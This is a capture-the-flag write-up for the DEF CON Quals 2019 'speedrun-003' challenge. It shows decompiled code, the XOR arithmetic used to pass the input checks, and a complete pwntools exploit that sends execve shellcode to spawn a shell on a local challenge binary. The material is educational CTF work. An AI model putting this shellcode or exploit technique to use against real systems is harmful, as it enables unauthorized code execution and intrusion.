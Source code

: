 # Defcon Quals 2019 Speedrun---03

First let's take a look at the binary:
```
$    pwn checksec speedrun
[*] '/Hackery/defcon/s3/speedrun'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
$    file speedrun
speedrun: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/l, for GNU/Linux 3.2.0, BuildID[sha1]=6169e4b9b9e1600c79683474c0488c8319fc90cb, not stripped
$    ./speedrun
Think you can drift?
Send me your drift
19535728
You're not ready.
```

So we can see that it has all of the standard binary mitigations, and that it is a 64 bit elf that prompts us for input. When we look at the main function in Ghidra, we see this:

```
undefined8 main(void)

{
  char *pcVar1;
 
  setvbuf(stdout,(char *)0x0,2,0);
  pcVar1 = getenv("DEBUG");
  if (pcVar1 == (char *)0x0) {
    alarm(5);
  }
  say_hello();
  get_that_shellcode();
  return 0;
}
```

Looking through the functions, the one of interest to us is `get_that_shellcode()`:

```
void get_that_shellcode(void)

{
  char xor0;
  char xor1;
  ssize_t bytesRead;
  size_t len;
  char *nopCheck;
  long in_FS_OFFSET;
  char input [15];
  undefined auStack41 [15];
  undefined local_1a;
  long stackCanary;
 
  stackCanary = *(long *)(in_FS_OFFSET + 0x28);
  puts("Send me your drift");
  bytesRead = read(0,input,0x1e);
  local_1a = 0;
  if ((int)bytesRead == 0x1e) {
    len = strlen(input);
    if (len == 0x1e) {
      nopCheck = strchr(input,0x90);
      if (nopCheck == (char *)0x0) {
        xor0 = xor(input,0xf);
        xor1 = xor(auStack41,0xf);
        if (xor0 == xor1) {
          shellcode_it(input,0x1e);
        }
        else {
          puts("This is a special race, come back with better.");
        }
      }
      else {
        puts("Sleeping on the job, you\'re not ready.");
      }
    }
    else {
      puts("You\'re not up to regulation.");
    }
  }
  else {
    puts("You\'re not ready.");
  }
  if (stackCanary != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return;
}
```

Here we can see it scans in `0x1e` bytes worth of input into `buf`, which then `strlen` is called on it. If the output of strlen is `30` then we can proceed. It also checks for NOPS (opcode `0x90`) in our input with `strchr`. Then runs the first half and second half of our input through the `xor` function, and checks to see if the results are the same. The `xor` function just goes through and xors the first `x` number of bytes it has been given, where `x` is the second argument and returns the output as a single byte:

```
ulong xor(long lParm1,uint uParm2)

{
  byte x;
  uint i;
 
  x = 0;
  i = 0;
  while (i < uParm2) {
    x = x ^ *(byte *)(lParm1 + (ulong)i);
    i = i + 1;
  }
  return (ulong)x;
}
```

So in order for our shellcode to run, the first half of our shellcode when all the bytes are xored together must be equal to the second half of the shellcode xored together. Then if it passes that check, our input is ran as shellcode in the `shellcode_it` function:

```
void shellcode_it(void *pvParm1,uint uParm2)

{
  undefined *shellcode;
 
  shellcode = (undefined *)mmap((void *)0x0,(ulong)uParm2,7,0x22,-1,0);
  memcpy(shellcode,pvParm1,(ulong)uParm2);
  (*(code *)shellcode)();
  return;
}
```

So in order to get a shell, we will just need to send it a `30` byte shellcode with no null bytes (because that would interfere with the `strlen` call), and the first half of the shellcode xored together will be equal to the second half of the shellcode xored together. For this I used a 24 byte shellcode that I have used previously (the one from: https://teamrocketist.github.io/2017/09/18/Pwn-CSAW-Pilot/ ), while padding the end with `6` bytes worth of data to pass the length check. I then edited the last byte to pass the xor check by doing some simple xor math. Also I didn't have to worry too much about what instructions the opcodes mapped to, since the would be executed after the syscall which is when we get the shell.

To figure out what specific byte at the end, we can do that with a bit of python math. First xor the first part by itself to figure out what we need to get the right side equal to:

```
>>> part0 = "\x31\xf6\x48\xbf\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdf"
>>> len(part0)
15
>>> x = 0
>>> for i in part0:
...     x = x ^ ord(i)
...
>>> hex(x)
'0x2f'
>>>
```

So we can see that the xor must equal `0x2f`. Let's see what the other half of the xor will be if we append 4 `\x50`s to the end:

```
>>> part1 = "\xf7\xe6\x04\x3b\x57\x54\x5f\x0f\x05"
>>> part1 += "\x50"*5
>>> len(part1)
14
>>> x = 0
>>> for i in part1:
...     x = x ^ ord(i)
...
>>> hex(x)
'0x28'
```

To figure out what the missing byte is, we can just xor `0x28` and `0x2f` together:

```
>>> 0x28 ^ 0x2f
7
```

With that, we can see that the final byte of the second part will need to be `7` to pass the checks. Putting it all together, we get the following exploit:

```
from pwn import *

# Establish the target process
target = process('./speedrun-003')
#gdb.attach(target, gdbscript = 'pie b *0xac7')
#gdb.attach(target, gdbscript = 'pie b *0xaa3')
#gdb.attach(target, gdbscript = 'pie b *0x982')
#gdb.attach(target, gdbscript = 'pie b *0x9f7')

# The main portion of the shellcode
shellcode = "\x31\xf6\x48\xbf\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdf\xf7\xe6\x04\x3b\x57\x54\x5f\x0f\x05"


# Pad the shellcode to meet the length / xor requirements
#shellcode = "\x50"*3 + shellcode + "\x50"*2 + "\x07"
shellcode = shellcode + "\x50"*5 + "\x07"

# Send the shellcode and then drop to an interactive shell
target.send(shellcode)
target.interactive()
```

When we run it:
```
$ python exploit.py
[+] Starting local process './speedrun-003': pid 5605
[*] Switching to interactive mode
Think you can drift?
Send me your drift
$ w
 00:58:37 up 21 min,  1 user,  load average: 0.39, 0.62, 0.57
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
guyinatu :0       :0               00:40   ?xdm?   1:32   0.00s /usr/lib/gdm3/gdm-x-session --run-script env GNOME_SHELL_SESSION_MODE=ubuntu gnome-session --session=ubuntu
$ ls
exploit.py  readme.md  speedrun-003
```

Just like that, we solved the challenge!